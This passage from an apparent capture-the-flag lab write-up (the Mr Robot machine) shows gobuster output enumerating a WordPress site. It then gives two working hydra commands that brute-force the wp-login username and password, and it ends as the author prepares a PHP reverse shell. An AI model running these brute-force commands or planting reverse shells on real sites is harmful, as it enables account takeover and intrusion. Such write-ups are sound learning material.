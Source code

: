 ```
===============================================================
2022/11/17 13:10:11 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.129.170/images/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.129.170/blog/]  
/rss                  (Status: 301) [Size: 0] [--> http://10.10.129.170/feed/]    
/sitemap              (Status: 200) [Size: 0]                                     
/login                (Status: 302) [Size: 0] [--> http://10.10.129.170/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.129.170/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://10.10.129.170/feed/]       
/video                (Status: 301) [Size: 235] [--> http://10.10.129.170/video/]    
/image                (Status: 301) [Size: 0] [--> http://10.10.129.170/image/]      
/atom                 (Status: 301) [Size: 0] [--> http://10.10.129.170/feed/atom/]  
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.129.170/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.129.170/admin/]     
/audio                (Status: 301) [Size: 235] [--> http://10.10.129.170/audio/]     
/intro                (Status: 200) [Size: 516314]                                    
/wp-login             (Status: 200) [Size: 2613]                                      
/css                  (Status: 301) [Size: 233] [--> http://10.10.129.170/css/]       
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.129.170/feed/]        
Progress: 598 / 207644 (0.29%)                                                       ^C
[!] Keyboard interrupt detected, terminating.
                                                                                      
===============================================================
2022/11/17 13:10:25 Finished
===============================================================

```

>Directory enumeration has given very juicy information that guides me to the next step. From this I discovered a wordpress site with a login page at /wp-admin.


Definitely what comes to my mind is do a bruteforce attack to discover username and password since we have a custom wordlist for it.

For this task i decide to use hydra for bruteforcing.

`hydra -L fsocity.dic -p test MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30`


>This hydra command gives us the username and the next thing i needed was a password to be able to gain access to the wordpress site. So I did another hydra bruteforce to get the password.

`hydra -l Elliot -P fsocity.dic MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30`

> Using the username and password I obtained from the bruteforce, I gained access to the site and looking through I could see the logged in user has the privileges of editing the site and this was an amazing discovery. Having editor privileges means as an attacker I can launch a reverse shell. Interesting one here.
> I searched on the web for a php revshell script since the site has `.php` extension templates. I love visiting the pentestmonkey site for rev shell scripts 
